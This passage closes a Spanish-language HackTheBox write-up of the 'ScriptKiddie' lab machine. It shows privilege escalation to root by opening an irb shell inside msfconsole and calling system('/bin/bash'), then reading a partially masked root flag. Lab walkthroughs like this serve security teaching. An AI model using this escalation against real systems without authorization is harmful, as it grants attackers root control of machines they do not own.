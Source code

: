 ```bash
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Enable verbose logging with set VERBOSE true

msf6 > 
```

Desde `msfconsole` podemos entrar en una shell de Ruby con el comando `irb` y llamar a `system()` para ejecutar comandos de sistema. Esto nos permite conseguir una shell con privilegios de root

```bash
msf6 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

irb: warn: can't alias jobs from irb_jobs.
>> system("/bin/bash")
root@scriptkiddie:/home/pwn# whoami
root
```

La flag de root la encontramos en el directorio `/root`

```bash
root@scriptkiddie:/home/pwn# cat /root/root.txt 
3e4917ca3ca64c34***************
```

Hemos completado la máquina **ScriptKiddie** de HackTheBox!! Happy Hacking!!


<img src="/assets/HTB/ScriptKiddie/pwned.png">
